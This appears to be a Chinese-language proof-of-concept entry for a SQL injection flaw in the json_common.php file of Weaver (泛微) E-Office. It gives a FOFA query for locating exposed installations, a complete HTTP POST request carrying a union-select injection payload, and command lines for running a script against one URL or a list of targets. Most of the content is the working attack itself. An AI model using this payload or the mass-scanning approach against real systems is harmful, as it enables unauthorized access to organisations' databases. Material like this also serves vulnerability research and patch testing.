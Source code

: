 # 泛微E-Office json_common.php SQL注入漏洞

### 1.漏洞描述

泛微为企业办公提供丰富应用，覆盖常见协作场景，开箱即用。满足人事、行政、财务、销售、运营、市场等不同部门协作需求，帮助组织高效管事理人。

系统 json_common.php 文件存在SQL注入漏洞

### 2.fofa语法

```
app="泛微-EOffice"
```

### 3.漏洞复现

```
POST /building/json_common.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Content-Length: 87
Accept: */*
Accept-Language: en
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

tfs=city` where cityId =-1 /*!50000union*/ /*!50000select*/1,2,md5(102103122) ,4#|2|333
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719831676177-e6783e1e-13aa-48b6-a8a4-7b8519d28c36.png)

### 4.py脚本使用

```
python3 360 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 360 脚本文件名 -f url.txt             # 测试多个url
```

